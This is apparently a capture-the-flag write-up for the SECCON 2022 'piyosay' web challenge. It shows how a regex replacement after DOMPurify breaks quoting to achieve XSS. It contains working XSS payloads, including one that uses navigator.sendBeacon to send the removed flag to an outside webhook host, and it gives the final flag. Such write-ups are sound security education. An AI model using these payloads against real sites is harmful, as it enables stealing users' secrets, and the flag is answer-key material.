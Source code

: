 # piyosay writeup | SECCON 2022
> I know the combination of DOMPurify and Trusted Types is a perfect defense for XSS attacks.
> 
> http://piyosay.seccon.games:3000

## Quick overview

There is a [Trusted Types](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/trusted-types) policy for creating HTMLs which makes use of [DOMPurify](https://github.com/cure53/DOMPurify). 

```js
    trustedTypes.createPolicy("default", {
      createHTML: (unsafe) => {
        return DOMPurify.sanitize(unsafe)
          .replace(/SECCON{.+}/g, () => {
            // Delete a secret in RegExp
            "".match(/^$/);
            return "SECCON{REDACTED}";
          });
      },
    });
``` 

However, there is a bug that replaces flag with `SECCON{REDACTED}` and we can abuse it to escape from quotes. Imagine a safe code like: 
```html
SECCON{<img id="}
  <style/onload=alert()>">
```

After replacement, it will become:

```html
SECCON{REDACTED}
<style/onload=alert()>">
```

which is an XSS - http://piyosay.seccon.games:3000/result?message=asdSECCON{%3Cimg+id%3D%22}%0a%3Cstyle/onload=alert()%3E%22%3E.

However, the flag is removed from the cookie so we need to somehow access it. We found out that `DOMPurify.removed` will contain the removed flag, so we just read it and sent to our server, with:

```html
SECCON{<img id='}
  <style/onload=navigator.sendBeacon("https://server/leak",DOMPurify.removed[0].element.innerText>'><iframe>
```

After sending `http://web:3000/result?message=SECCON{<img/id='}%0a<style/onload=navigator.sendBeacon("https://webhook.site/e1898219-2d03-4382-85a7-f9ef118f90a3",DOMPurify.removed[0].element.innerText)>'><iframe>` to the bot, we've got the flag:

**SECCON{w0w_yoU_div3d_deeeeeep_iNto_DOMPurify}**
